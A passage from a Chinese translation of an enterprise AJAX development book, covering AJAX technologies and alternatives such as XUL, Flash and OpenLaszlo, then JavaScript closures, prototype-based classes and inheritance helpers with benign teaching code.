这给用户的感觉是，浏览器根本不是一个*客户端*，而是整个数据集都驻留在他们本地的计算机上。这种对大型数据集的小型但动态的视图是一个有趣的用例，它利用网络服务架构来改善用户体验。更复杂的 AJAX 技术，如预取、预测获取和缓存，可以进一步提升性能。

² <http://www.macrumors.com/events/mwsf2006-stats.php>

³ <http://www.developer.com/xml/article.php/3554271>

### 技能、工具与技术的渐进式升级

由于 AJAX 基于经典 Web 应用中已在使用（程度不一）的技术，仅引入 XHR 对开发团队所需的技能而言，只是一个微小的渐进式提升。

这也很有利，因为可以通过对代码进行相对较小的改动，为传统 Web 应用程序进行“换脸”升级。这意味着引入一些富客户端行为并不一定需要彻底重写应用程序，或雇佣具有完全不同技能组合的新开发人员——例如，如果我们转向 Flex 开发，情况可能就会如此。

相反，AJAX 开发可以渐进式地进行，从而为您的组织争取时间来掌握相关技术和技巧，同时也让最终用户有时间适应新的 Web 体验。考虑到自上世纪 90 年代末以来在部署基于浏览器的应用方面已投入了大量资金，对于开发人员来说，能够利用现有系统并仍能改善用户体验，这很有吸引力。

### 服务器无关性

另一个强有力的卖点是 JavaScript 固有的服务器独立性。开发人员可以自由选择任何服务器技术组合，与客户端代码配合使用。

针对每一种可想象的后端，如 PHP、Classic ASP、ASP.Net、Perl、Java、Cold Fusion 和 Ruby on Rails，都存在相应的 AJAX 框架和社区。这促进了 AJAX 的发展，因为来自不同背景的开发人员都可以使用和讨论这项技术。这种自由性对于已在特定服务器技术上投入资金的企业来说，意味着成本节约。

### 关于应用程序本身？


除了 AJAX 应用程序的可用性目标外，我们还需要为应用程序开发本身设定目标，因为正如我们在上一节所提到的，应用程序开发目标应强化可用性目标。尽管 AJAX 确实使得这些可用性改进成为现实，但这完全取决于开发人员对所涉及技术的了解，以及在他们特定的应用约束下使其工作所需的实现细节。

AJAX 应用程序与传统 Web 应用程序类似，它依赖 Web 服务器来托管应用程序，并依赖 Web 浏览器让用户访问应用程序。服务器架构方面有一些变化；然而，与传统 Web 应用程序相比，AJAX 应用程序的服务器在大多数情况下并无不同。事实上，AJAX 完全与服务器无关。任何标准 Web 服务器和服务器端语言，如 PHP、ASP、ASP.Net、Perl、JSP、Cold Fusion 或 Ruby，都可以用来驱动您的 AJAX 应用程序。这很好，因为对于大多数企业来说，其服务器架构可能已经稳固确立。服务器无关性有助于推动 AJAX 的采用，因为它使所有 Web 开发人员无论使用何种服务器技术，都能使用和讨论一种通用的 Web 应用程序方法。

尽管 AJAX 与服务器相去甚远，但当我们的 AJAX 应用程序开始面向多个 Web 浏览器时，困难就出现了。尽管许多相关的 AJAX 技术是由万维网联盟（W3C）标准组织倡导的标准，但这些标准在不同浏览器之间的实现方式差异很大。这在很大程度上是由于在许多标准普及之前，人们在 Internet Explorer 上投入了大量工作。无论如何，本书的很大一部分内容是关于如何编写能在尽可能多的 Web 浏览器中工作的 AJAX 应用程序——通常目标为 Internet Explorer 6+、Firefox 1.0+ 和 Safari 1.3 及更高版本。即使您的组织使用的是较旧的浏览器，如 Internet Explorer 5.5/5.0 或 Netscape 6.0，AJAX 仍然可以使用。您还应该意识到，许多企业环境由 Internet Explorer 浏览器主导，如果您的应用程序只需针对单一供应商的浏览器，可以实现一些效率提升（至少是减少代码量）。

## AJAX 技术

本书涵盖了多种相关的 AJAX 技术。方便的是，相关的 AJAX 技术（参见图 1.6）分布在开发人员需要关注的应用程序的相同领域中。

- **应用程序结构**——与传统 Web 应用程序一样，支持 AJAX 的网页结构是使用标准可扩展超文本标记语言（XHTML）创建的。
- **应用程序设计**——层叠样式表（CSS）用于为当今互联网上的大多数网站设置样式。CSS 允许开发人员指定简单的规则，将特定的样式信息应用于文档结构中的特定 HTML 元素。
- **应用程序交互性**——文档对象模型（DOM）是用于在网页或应用程序中动态访问和操作 HTML 元素的底层 API。它包含动态访问 HTML 元素、HTML 元素事件（如 `onclick` 或 `onkeypress`）以及 CSS 样式的规范。
- **数据格式**——可扩展标记语言（XML）是 AJAX 应用程序中在客户端和服务器之间传输数据的通用语言，也是其名称中第二个“X”的来源。正日益流行的是 JavaScript 对象表示法（JSON），它使开发人员能够将数据格式化为 JavaScript 对象，这些对象可以跨网络传输，并在另一端作为原生 JavaScript 访问。
- **数据传输**——XMLHttpRequest（XHR）对象是在网页幕后以编程方式向 Web 服务器发出请求的技术。它可以通过 JavaScript 在所有现代浏览器中访问。XHR 对象是使能 AJAX 的关键组件，它仅在 Firefox 浏览器中提供后才得到广泛使用。
- **粘合脚本**——或 ECMA 脚本（标准 ECMA-262），是统一的 AJAX 技术。JavaScript 是一种在所有主要 Web 浏览器中都支持的脚本语言，它为开发人员提供了对 XHR 对象和 DOM API 的编程访问。

在整本书中，我们将深入探讨这些技术，并展示如何在支持 AJAX 的 Web 应用程序中最佳地使用它们，如图 1.6 所示。



图 1.6 跨越浏览器和服务器的各种 AJAX 技术

## 编程模式

与前面讨论的 UI 设计模式类似，许多重要的编程设计模式您可能已经熟悉。我们以这些模式为背景向您介绍 AJAX 开发，更重要的是，向您展示像 JavaScript 这样的语言如何让您避免使用某些模式，并将编码开销降至最低。

同时，AJAX 开发也为围绕处理 XHR 对象和在客户端与服务器之间传输数据定义一些自身的新模式创造了机会。此外，开发者在 DOM API 中使用事件和 CSS 的方式，也基于性能基准测试和开发便利性，为定义重要的 AJAX 编程设计模式提供了机会。

## AJAX 的替代方案

基于前述原因，AJAX 无疑是 Web 上富客户端行为的一个极具吸引力的选择。然而，故事并未结束，因为还有其他富 Web 替代方案值得考虑，其中一些可能在未来扮演更重要的角色，因为它们能够很好地解决跨浏览器支持问题，并提供丰富交互且引人入胜的用户体验。它们与 AJAX 并非必然是竞争关系，更多的是互补技术，可以利用我们从 AJAX 中学到的很多东西。其中一些技术包括 XUL、XAML、SVG/VML/Canvas、Java Applets 和 Web Start，以及 Flash。

### XUL

XUL（发音为“zool”）是一种用于创建丰富动态用户界面的高性能标记语言。它是 Mozilla 浏览器及相关应用程序的一部分，可在 Mozilla 浏览器（如 Firefox）中使用。XUL 主要由一组高性能的小部件组成，这些小部件可以组合形成更复杂的企业应用和组件。您可以使用 XUL 构建复杂的复杂应用程序。

XUL 的优势在于它速度快，可与 JavaScript 协同工作，基于 XML，并且可以利用 Firefox 的一些内部机制，如 SQLite 存储引擎。XUL 的主要缺点是它完全依赖于 Mozilla 技术栈，在 Internet Explorer 中无法工作。

### XAML

XAML 是一种用于创建丰富动态用户界面的高性能标记语言。XAML 是 .NET Framework 3.0 技术栈的一部分，特别是 Windows Presentation Foundation（WPF），它在其中被用作用户界面标记语言来定义 UI 元素、数据绑定和事件。当在 WPF 中使用时，XAML 描述丰富的视觉用户界面，例如由 Adobe Flash 和 AJAX 创建的界面。该语言允许定义 2D 和 3D 对象、旋转、动画以及各种其他效果和特性。它比 AJAX 功能强大得多；然而，它高度依赖平台，即使在 Windows 桌面开发中也尚未成为主流。

### Java Applets 和 Web Start

Applets 是可以运行在 Web 浏览器中并与服务器进行异步通信的编译后的 Java 应用程序。它们提供了各种图形功能，但需要使用 Java 虚拟机。尽管它们是跨平台的，可以在不同的

与浏览器不同，小程序（applet）可能显得缓慢，因为它们通常需要先启动 JVM 才能运行。此外，由于 perceived security risk（ perceived 安全风险），它们有时会在企业环境中被禁用。近年来，小程序已逐渐失宠，被其他技术所取代，例如 Java Web Start、AJAX 和 Flash。

与 Java 小程序不同，Java Web Start 应用程序并不在浏览器内部运行，但可以从浏览器同时下载和运行。Web Start 相对于小程序的一个优势是，它克服了许多与浏览器 Java 插件和不同版本 JVM 的兼容性问题。然而，Web Start 应用程序无法像小程序那样轻松地与浏览器通信。

### Adobe Flash、Flex 和 Apollo

Adobe Flash 是一个功能强大且无处不在的平台，用于在网络上和桌面端交付媒体、游戏和应用程序。Flash 影片可以通过 Flash 8.0 中引入的 `ExternalInterface` 库与网页进行通信。Adobe 声称 Flash 覆盖了 97.3% 的桌面互联网用户。<sup>4</sup> 其他来源估计，约 90% 的 Internet Explorer 用户和 71% 的所有用户安装了 Flash。<sup>5</sup> 运行时 Flash Player 引擎的最新进展带来了性能提升，使得丰富的互联网和桌面应用程序成为可能。

Flex 是一组技术的统称，旨在为基于 Flash Player 开发富应用程序提供平台。Flex 最初面向 J2EE 和 Coldfusion 开发人员，但也可以在其他服务器技术之上使用。

Apollo 是 Adobe 的下一代技术，它将 Flash、Flex、AJAX 和 HTML 结合到一个统一的应用程序平台中，能够将 Web 应用程序部署到桌面，并在桌面和 Web 之间实现一定程度的互操作性。目前，Apollo 处于有限发布的 BETA 阶段，但其功能足够强大，可能标志着未来 Web 应用程序开发的一次转变。

<sup>4</sup> http://www.macromedia.com/software/player_census/flashplayer

<sup>5</sup> http://www.andyjeffries.co.uk/documents/flash_penetration.php

### OpenLaszlo

OpenLaszlo<sup>6</sup> 是一个开源应用程序框架，能够部署到 Flash 或 DHTML。它在企业社区中获得了一定的关注，这对其有所帮助，而且它通常被视为 Adobe Flex 的直接（且免费的）竞争对手。该框架具有跨浏览器兼容性，并可在多个操作系统中运行。它缺少 Flex 2 的一些企业功能，例如 Flex Data Services 提供的功能，但由于它基于 Flash，因此从定义上讲，它享有许多相同的优势。

## 小结

本章展示了将 RIA 视为实现企业目标的一种方式是多么关键。事实证明，使用 AJAX 可能最重要的原因是改善用户对基于 Web 的应用程序的体验。这种 Web 开发技术几乎完全是为了帮助最终用户，很高兴看到一种以可用性为中心的技术在开发人员中如此受欢迎。使用 AJAX 可以快速改善 Web 应用程序的可用性，但当你面对更难的问题并构建更大规模的应用程序时，可能会出现许多可扩展性和性能问题。有许多基础和入门级的 AJAX 书籍可供选择；然而，本书可以帮助你在构建企业级应用程序时应对更具挑战性的问题。

AJAX 并非完美；它不是“火箭科学”，许多开发人员和技术公司一直在努力寻找更好的 RIA 技术。AJAX 如今已经存在并在运行；它是跨浏览器和跨平台的。用户和开发人员都喜欢它的功能。领先的财富 500 强企业使用 AJAX，甚至通过 Open AJAX Alliance 等组织向社区回馈工具。总体而言，业界已经就底层 AJAX 技术达成一致并使用它们。对 RIA 的重新重视以及浏览器技术的关键进步，使 AJAX 不仅仅是开发人员工具箱中的一个新工具，而是一种正在改变 Web 应用程序编写方式的现象。没有人能够确定它将被什么以及何时取代作为 RIA 的首选平台，但许多因素支持 AJAX 在未来几年持续存在。我们希望为你提供知识和技能，以设计、开发和交付具有高度可用界面的世界级 Web 应用程序，服务于你的用户。

<sup>6</sup> http://www.openlaszlo.com

以下是你在本书其余部分将学习的主题大纲：

- 第 2 章“AJAX 构建模块”，深入探讨 AJAX 应用程序的核心，概述 JavaScript、CSS、XML 以及根本上 DOM 的作用。它还向你介绍了 XHR 对象和 JSON 作为数据传输方法。
- 第 3 章“Web 浏览器中的 AJAX”，探讨模型-视图-控制器模式如何应用于 AJAX 开发，你开始构建一些基本组件。
- 第 4 章“AJAX 组件”，详细阐述构建 AJAX 组件的过程，并介绍声明式方法。第 4 章还将构建一个功能完整的 AJAX 数据网格。
- 第 5 章“设计到部署”，退一步审视 AJAX 开发从设计到部署的生命周期。它介绍了一些实用的线框图和设计方法，然后讨论了将应用程序发布到生产环境时相关的问题。
- 第 6 章“AJAX 架构”，进一步探讨架构问题，并介绍离线 AJAX 的概念。
- 第 7 章“Web 服务与安全”，演示面向服务的架构方法，以及如何使用 Web 服务构建数据-centric 应用程序。
- 第 8 章“AJAX 可用性”，回顾可用性主题，并为你提供一些构建可用 AJAX 应用程序的工具。
- 第 9 章“用户界面模式”，介绍一些 AJAX 模式，并让你熟悉一些构建创新用户界面的强大技巧。主要模式包括拖放、进度条、旋转指示器、颜色变化和淡出（即黄色淡出）、悬停指示器以及内联编辑。它涵盖交互模式，包括下钻、主从、实时搜索和实时表单验证。
- 第 10 章“风险与最佳实践”，涉及风险。你将研究 AJAX 开发中一些重要的风险来源，并提出风险缓解技术。
- 第 11 章“案例研究”，研究一些来自企业开发人员的真实 AJAX 实现，你将了解哪些有效、哪些无效。

## 资源

James, Jesse. “AJAX,” http://adaptivepath.com/publications/essays/archives/000385.php

“AJAX Patterns,” http://AJAXpatterns.org/

AJAXian.com

AJAXInfo.com, “Measuring the Benefits,” http://www.developer.com/xml/article.php/3554271

http://www.openlaszlo.org/

# AJAX 构建模块

在本章中，我们向你介绍构成 AJAX 的核心元素。我们假设你具备相关技术的一些基本经验。本章讨论的各种技术如下：

- **JavaScript**——通用浏览器语言，DOM 和 XHR 之间的粘合剂
- **文档对象模型（DOM）**——应用程序显示和交互性
- **层叠样式表（CSS）**——应用程序视觉样式和设计
- **XMLHttpRequest（XHR）**——数据传输

在讨论 XHR 对象时，我们还涉及 AJAX 的一些基础知识，例如处理客户端和服务器上的数据。

我们不仅希望在企业系统开发的背景下介绍一些 AJAX 技术，还 strives 涵盖一些基本必需品。至少，你可以从本章中了解到各种技术是什么。其次，我们详细说明了各种 AJAX 技术的优势所在以及应该避免使用的地方。我们还讨论了一些常见的企业开发模式，并展示如何利用这些模式来帮助构建可扩展和可重用的 AJAX 应用程序。使用模式不仅可以利用你现有的知识，还有助于保持代码的整洁和可管理性。

### JavaScript

JavaScript 是 AJAX 的核心。它是在这里进行所有数字运算、处理事件和发送数据请求的。JavaScript 是大部分应用程序领域逻辑和控制代码存在的地方。

## 第二章 AJAX 构建模块

JavaScript 在广大开发者社区中长期以来名声不佳。诚然，它既非强类型语言，也不支持传统意义上的面向对象类，但如果编写得当，它能显著提升 Web 应用程序的性能和可维护性。尽管 JavaScript 确实存在一些弱点，但我们试图强调它的一些优势——例如面向对象编程——这些优势使其成为一门功能强大的语言。

### 设计模式

在整本书中，我们参考了著名书籍《设计模式：可复用面向对象软件的基础》中的设计模式，该书由 Erich Gamma、Richard Helm、Ralph Johnson 和 John Vlissides 撰写，这四位领先的开发者被称为四人组（GoF）。《设计模式》一书以 C++ 和 Smalltalk 等经典语言为背景编写，为开发者提供了编写健壮且高性能代码所需的工具。在本书中，当我们引用 GoF 模式以建立共同的出发点时，我们会指出在 JavaScript 中高度简化后的各种设计模式。

## JavaScript 类型

JavaScript 中的三种基本类型是布尔值、字符串和数字。此外，还有两种特殊类型：`null` 和 `undefined`。除了这些基本类型，还有复杂类型：对象、数组和函数。函数对象是 JavaScript 中的“一等”对象，这意味着它们可以像其他任何对象一样被操作——作为参数传递给其他函数、使用 `toString` 方法序列化或进行扩展。你可以使用 `new` 关键字创建所有复杂类型的实例，并且可以动态（且任意地）向新对象添加属性，如下所示：

```
var box = new Object();
box.height = 20;
box.shrink = new Function();
box.contents = new Array();
```

尽管定义此 `box` 对象的语法可能至少对服务器端程序员来说有点熟悉，但你也可以使用以下简写方式来定义基本的 JavaScript 对象：

```
var box = {};
box.height = 20;
box.shrink = function() {};
box.contents = [];
```

特别地，我们使用关联数组或哈希表示法 `{}` 定义了基本对象。此外，与使用点表示法访问对象属性不同，你也可以使用哈希表示法，将属性名作为哈希中的键来设置或获取任何 JavaScript 对象的属性，例如：

```
var boxHeight = box["height"];
```

所有对象也是哈希这一事实所带来的灵活性，使得许多有趣的用法成为可能，其中最重要的就是继承。当处理可能需要使用传统单例模式的情况时，即你希望一个对象在应用程序持续期间只有一个实例，内联或对象字面量语法创建对象是理想的选择。

```
var box = {
  "height": 20,
  "shrink": function() {},
  "contents": []
};
```

这里没有调用构造函数，对象的字段和方法被定义为以冒号分隔的名称-值对列表，各对之间用逗号分隔。这是你看到的第一个例子，展示了像 JavaScript 这样动态特性的语言如何使经典的 Design Pattern 变得过时。

### 单例模式


*单例*（Singleton）设计模式用于确保一个类只有一个实例，并为其提供一个全局访问点。`单例`在 Java 中被广泛使用，在 JavaScript 中也可以轻松实现。当需要一个对象来协调整个系统的操作时，它们非常有用。例如，一个包含版本、状态等信息的全局应用程序信息类。这样的类只需要一个实例。

在 JavaScript 中处理`单例`的一种方法是使用对象字面量语法，例如：

```javascript
var Ajax = {
  "ver": "1.0",
  "status": "active"
};
```

因为根据定义，该对象只有一个实例，所以你不需要定义一个类或任何`单例`所期望的基础结构，比如用于返回对象唯一实例的`getInstance()`方法。这是一个传统的设计模式，在 JavaScript 中在很大程度上是多余的。

### 闭包

JavaScript 中可能最重要、也最常被误解的特性是闭包，这是动态编程语言的一个常见特性。当一个函数在另一个函数内部声明时（也称为内部函数），就创建了一个 JavaScript 闭包。当一个函数在另一个函数的主体内定义时，即使在外部函数执行完成后，内部函数仍然可以访问外部函数中定义的任何变量。这对大多数人来说是违反直觉的，但这是由于 JavaScript 解释器将外部函数的作用域动态附加到内部函数的作用域所致。以下是闭包工作原理的基本示例：

```javascript
function Foo() {
  var bar = "foobar";
  // create the inner function or closure
  var showFoobar = function() {
    alert(bar);
  };
  // return a reference to the dynamically created closure
  return showFoobar;
}
```

在这种情况下，当你调用`Foo`函数时，它返回一个`Function`类型的对象，该对象可以像这样动态执行：

```javascript
var myClosure = Foo();
myClosure(); // alerts "foobar"
// or
Foo()(); // alerts "foobar"
```

这两条语句都会导致网络浏览器弹出显示“foobar”。这一点的意义此刻可能并不完全清晰，但闭包会不断作为 JavaScript 中许多问题的解决方案重新出现。事实上，它们在面向对象的 JavaScript 中扮演着关键角色，因为它们允许你定义函数，这些函数会保存对象的作用域或上下文，直到它们在稍后的时间执行，即使它们被定义的作用域已经被垃圾回收。

## 面向对象 JavaScript

JavaScript 中可能最被误解的方面是面向对象特性。这种误解源于 JavaScript 与大多数面向对象语言（如 Java）不同的事实；JavaScript 中的面向对象是通过原型实现的，而在 Java 中，类的使用是至关重要的。第二个重要的区别是 JavaScript 是一种动态语言，这意味着在像 Java 这样的静态语言中在编译时发生的许多事情（例如类的定义），在 JavaScript 中可以在运行时发生。经典语言 Java 和原型语言 JavaScript 之间还存在许多其他差异，其中一些概述在表 2.1 中。

**表 2.1** Java 与 JavaScript 在 OOP 方面的差异

| 特性 | Java | JavaScript |
| :--- | :--- | :--- |
| 语言类别 | 静态 | 动态 |
| 类型系统 | 强类型 | 弱类型/动态类型 |
| 类定义 | `public class foo {}` | `function foo() {}` |
| 构造函数 | `public class foo { public foo() {} }` | `function foo() {}` |
| 方法定义 | `public class foo {<br> public foo() {}<br> public void Bar() {}<br>}` | `function foo() {<br> this.Bar = function() {};<br>}` |
| 对象实例化 | `foo myFoo = new foo();` | `var myFoo = new foo();` |
| 继承 | `public class foo<br>extends bar {}` | `foo.prototype = new<br>bar();` |

关于基于类与基于原型的语言存在不同的观点，这主要归结为关于类型安全、效率以及更强大的面向对象技术（如接口和抽象类）的争论。

尽管 JavaScript 是一种基于原型的语言，但只需稍加努力，就可以用类似于基于类的语言的方式进行面向对象开发，因此对于 Java 或 C++ 开发者来说会更熟悉。你需要做的第一件事是定义类。定义一个 JavaScript 类包括创建一个函数——仅此而已。例如，如果你想在 JavaScript 中创建一个`Customer`类，你可能会这样写：

```javascript
function Customer() {
  var firstName = "John";
  var lastName = "Smith";
}
```

起初，这看起来就像一个普通的 JavaScript 函数，定义了两个局部变量（`firstName`和`lastName`）——它确实是——然而，在 JavaScript 中，这同时也是一个类定义和构造函数。此时，你可以继续调用`Customer`函数（这不会有什么效果），或者你可以通过调用前面加上熟悉的`new`关键字的`Customer`函数来创建一个新的`Customer`类型对象：

```javascript
var myCustomer = new Customer();
```

在 JavaScript 中，`new`关键字会制作一个`Customer`函数结果的副本或克隆。如果你在`Customer`函数中使用`return`语句显式返回一个对象，那么该对象就会被克隆。在讨论继承时，你会看到在这个克隆过程中发生的另一个重要步骤。在下一节中，我们将让这个`Customer`类变得更加实用。

### 公共成员

到目前为止，我们的`Customer`类功能还比较简单，看起来更像是一个函数而不是类构造函数。要使对象的成员可以在对象外部访问，即成为公共成员，你需要将变量赋值给特殊的`this`对象。一方面，`this`对象在 JavaScript 和 Java 中的作用类似，都是在类中用于访问该类的字段或方法；然而，它在 JavaScript 中是不同的存在。在 Java 和 JavaScript 中，`this`都可以被视为传递给构造函数（或实例方法）的一个不可见参数，该参数实际上指向构造函数或方法所属的对象。两者的不同之处在于 JavaScript 是动态的，而 Java 是静态的；这意味着 Java 中的`this`对象只能用于设置类定义中已定义的字段，而在 JavaScript 中，它可以用于在对象上设置任意字段甚至方法。以下两个代码片段的结果是相同的。

```javascript
function Customer() {
  // public properties
  this.firstName = "John";
  this.lastName = "Smith";
}
var john = new Customer();
```

```javascript
function Customer() {}
function createCustomer()
{
  var temp = new Customer();
  temp.firstName = "John";
  temp.lastName = "Smith";
  return temp;
}
var john =
createCustomer()
```

虽然左边使用`this`的代码更紧凑，但从右边的代码可以清楚地看出，使用`this`等同于动态修改已创建的对象。因此，在 JavaScript 中使用`this`对象赋值字段或方法，等同于在 Java 中将成员定义为公共成员。创建一个新的`Customer`对象后，你可以使用熟悉的点号表示法读写公共的`firstName`和`lastName`字段。

```javascript
var jim = new Customer();
jim.firstName = "Jim";
var jimsLastName = jim.lastName;
```

我们还可以使用内部函数为类定义公共方法。

```javascript
function Customer(firstName, lastName) {
  this.firstName = firstName;
  this.lastName = lastName;
  this.getFullName = function() {
    return this.firstName + " " + this.lastName;
  };
}
```

在这个例子中，`getFullName()`方法会警报客户名字和姓氏的拼接结果。这里需要注意的是，我们已经在构造函数中添加了两个参数，以便在对象构造时定义名字和姓氏。

既然我们已经定义了一个获取客户对象全名的公共方法，那么接下来了解如何定义私有成员是合理的。

### 私有成员

要使`firstName`和`lastName`字段等同于 Java 中标记为`private`的成员，你只需使用`var`关键字定义它们，而不是定义在`this`对象上。使用`var`关键字定义的变量仅存在于`Customer`构造函数的作用域内；如果变量定义前没有关键字，变量的作用域将是全局的。为了使`firstName`和`lastName`字段在对象外部无法访问（除非通过`getFullName`方法），我们可以这样定义类：

```javascript
function Customer(firstName, lastName) {
  var _firstName = firstName;
  var _lastName = lastName;
  this.getFullName = function() {
    return _firstName + " " + _lastName;
  };
}
```

你可以只以这种方式定义类，仍然可以访问`_firstName`和`_lastName`字段，这得益于`getFullName`内部函数创建的闭包。在`getFullName()`方法内部，即使构造函数执行完毕，你仍然可以访问构造函数执行作用域中所有可用的变量。我们还应该提到，按照惯例，这里的变量以破折号字符作为前缀，以表示它们是私有的。

### 原型属性

JavaScript 中的`Function`对象有一个特殊的属性叫做`prototype`，通过它可以扩展类定义：这就是 JavaScript 是原型语言的概念来源。如果你想重新定义（或首次定义）`Customer`类上的`getFullName`方法，你可以使用`prototype`属性，而不是像之前那样在构造函数内使用闭包。使用`prototype`定义`getFullName`方法，看起来像这样：

```javascript
Customer.prototype.getFullName = function() {
  return this.firstName + " " + this.lastName;
}
```

因为这里没有使用闭包，所以你不能使用这种方法访问私有成员，因此你需要使用这个特殊对象来访问字段。重要的是，这条语句可以出现在实际类声明的外部，这意味着如果你得到一些想要添加功能的 JavaScript 代码，只需在代码的任何地方访问该类的`prototype`属性即可。使用`prototype`属性进行类增强将应用于该类的所有实例以及任何新创建的实例。在对象实例化后向其添加字段或方法的想法对大多数面向对象语言来说是陌生的；然而，这使得 JavaScript 成为一种异常丰富和富有表现力的语言。

一个类的`prototype`属性的字段和方法可以被该类的所有实例（过去和未来的）访问，其原因在于，当使用`new`关键字从一个类创建一个对象时，该类的`prototype`属性和该对象之间会创建一个隐藏链接。然后，当访问对象的字段或方法时，如果在对象本身上找不到，则会在对象的`prototype`上搜索该字段或方法。如果在`prototype`属性引用的对象上找不到该字段或方法，则会继续在`prototype`属性引用的对象的`prototype`上查找，依此类推。原型链是 JavaScript 中实现继承的方式。

### OOP 与继承

在学习如何在 JavaScript 中创建类时，你们中的一些人可能想知道如何利用“经典”继承。你可以通过多种方式实现继承，但都包含一些技巧、设计可能性以及你自己的设计决策。继承最简单的例子是将一个类的`prototype`属性设置为另一个类的实例。如果你想创建一个继承`Customer`类所有字段和方法的`Partner`类，你可以这样做：

```javascript
function Partner {
  this.partnerId = "";
}
Partner.prototype = new Customer();
```

这本质上是一种快速将`Partner`类上的所有字段和方法设置为`Customer`对象字段和方法的方法，类似于手动编写：

```javascript
Partner.prototype = {
  firstName: "",
  lastName: ""
}
```

这是一种简单的继承方法，可以快速实现简单的经典继承。

问题是，如果其中一个类上有你不想覆盖或继承的方法或字段怎么办？当你深入探讨这些问题时，面向对象的一些光芒就开始褪色了。JavaScript 中没有元数据或关键字来描述可以通过继承复制的字段或方法。如何执行这一步骤留待程序员决定。例如，Prototype JavaScript 库通过一个名为`extend`的自定义方法来启用继承，该方法添加到`Object`对象中。这种方法访问源对象实例中的每个属性或方法，并将其复制到目标或子对象。使用哈希表示法访问对象的字段和方法的能力，使你能够找到一个对象的所有功能并将其复制到另一个对象，如下所示：

```javascript
Object.extend = function(destination, source) {
  for (var property in source) {
    destination[property] = source[property];
  }
  return destination;
}

Object.prototype.extend = function(obj) {
  return Object.extend.apply(this, [this, obj]);
}
```

这种方法的继承没有提供太多灵活性，但你可以使用更先进的技术，如 Dean Edwards¹ 或 Douglas Crockford² 所建议的技术。Edwards 的方法最复杂，性能最差（大约差一个数量级），但如果开发者来自 Java 背景，它提供了一种熟悉的编程方式。Crockford 的方法性能要高得多，并且需要开发者指定要从父类复制到子类的所有方法——这可能会变得乏味。尽管这两种方法都有其优点，但最实用的方法之一可能是由 Kevin Lindsay³ 推广的方法。

在选择继承方法时，需要考虑几个因素，Edwards 对此进行了讨论。你通常希望实现以下目标：

- 避免在原型阶段调用类的构造函数。
- 避免从子类对父类方法进行全局引用。
- 允许调用基类方法和基类构造函数。
- 不要修改`Object.prototype`。
- 确保这些要求不会对性能产生显著影响。

¹ <http://dean.edwards.name/weblog/2006/03/base/>

² <http://www.crockford.com/javascript/inheritance.html>

³ <http://www.kevindev.com/tutorials/javascript/inheritance/index.htm>

一个用于实现一个类继承另一个类的函数看起来像这样：

```javascript
entAjax.extend = function(subClass, baseClass) {
  function inheritance() {};
  inheritance.prototype = baseClass.prototype;
  subClass.prototype = new inheritance();
  subClass.baseConstructor = baseClass;
  if (baseClass.base) {
    baseClass.prototype.base = baseClass.base;
  }
  subClass.base = baseClass.prototype;
}
```

这个继承函数接受两个参数：从基类继承的子类以及基类本身。与任何 JavaScript 类一样，这两个都是`Function`对象。`extend`函数的前两行确保在原型阶段不会调用基类的构造函数（前面列表中的第 1 点）。

```javascript
function inheritance() {};
inheritance.prototype = baseClass.prototype;
```

这是通过创建一个临时类（当然，只是一个函数）来实现的，该临时类具有一个空的构造函数。然后，你将临时类的`prototype`属性设置为基类的`prototype`，这意味着临时类和基类现在是相同的，除了临时类的构造函数中没有代码，并且基类的构造函数没有被调用。这是一个重要的要求，因为基类的构造函数可能正在执行一些 DOM 操作（或类似操作），这些操作实际上不应该在类实例化之前执行。

创建临时类之后，你实例化它并将`subClass`的`prototype`属性设置为基类生成的实例。

```javascript
subClass.prototype = new inheritance();
```

然后，通过添加一个名为`baseConstructor`的属性来增强子类，该属性引用基类；这使你可以调用基类构造函数（第 3 点）。

```javascript
subClass.baseConstructor = baseClass;
```


为了确保你可以调用基类本身可能已经继承的类中的方法，将基类的`prototype`属性设置为基类上增强的`base`属性。

```javascript
baseClass.prototype.base = baseClass.base;
```

将此与这个简短继承函数中的最后一行代码结合，你创建了一个`base`属性的原型链（第 2 点）。

```javascript
subClass.base = baseClass.prototype;
```

要从子类访问基类方法，你可以使用对子类基类原型的全局引用，如下所示：

```javascript
subClass.prototype.foo = function(args) {
  subClass.base.foo.apply(this, arguments);
}
```

这里，`subClass`的`base`属性引用`baseClass`的`prototype`，因此，你可以访问`baseClass`的`foo`函数。然后使用 JavaScript 特殊的`apply`函数调用该函数，以便在`subClass`的作用域中执行`foo`函数，而不是在其定义的`baseClass`上执行。

类似地，可以像这样调用基类的构造函数：

```javascript
subClass = function(args)
{
  subClass.baseConstructor.apply(this, arguments);
}
```

你可能会注意到一个奇怪的新方法叫做`apply`。这是 JavaScript 中最重要的方法之一——第二个是它近亲`call`。`apply`和`call`都是`Function`对象的方法。它们可用于在不了解函数签名的情况下执行函数（对于`apply`），更重要的是，在任意执行上下文中执行。`call`和`apply`接受的第一个参数是方法应该执行的上下文。通过在不同的执行上下文中调用方法，它会改变被调用方法中`this`关键字的含义。

```javascript
var jim = new Customer("jim");
var bob = new Customer("bob");
alert(bob.getFullName.call(jim)); // 弹出 "jim"！
```

## 可变性

如果对象可以被更改，则该对象是可变的。在运行时，JavaScript 类和对象都是可变的；可以动态地向它们添加或从中移除字段或方法。这种功能在许多经典语言（如 Java 和 C#）中并不容易实现，这正是经典装饰器模式的必要性所在。装饰器模式是另一种 JavaScript 使其更容易实现的经典模式。

在 JavaScript 中，你可以通过设置字段或方法来装饰对象，就像它已经存在一样，而不需要整个模式来描述如何实现对象的装饰，以及应用程序中相关的脚手架代码。如果你有一个从`Customer`类创建的对象，在某个时候也成为贸易伙伴，你可能需要向该对象添加一些功能——虽然不是所有客户——但与作为贸易伙伴相关。

这与在类上使用`prototype`属性略有不同，后者会改变该类的所有对象的功能。以下是一个改变已存在对象的示例。

```javascript
function makePartner(obj) {
  obj.trade = function() { … };
}

var jim = new Customer();
makePartner(jim);
jim.trade();
```

我们现在通过添加`Customer`成为`Partner`所需的必要字段和方法，将 Jim 扩展为贸易伙伴。这使我们能够扩展单个实例的功能，而不改变对象所派生的类的功能或该类的任何其他实例。很少有基于类的面向对象语言允许这种开箱即用的动态行为。

## 装饰器模式

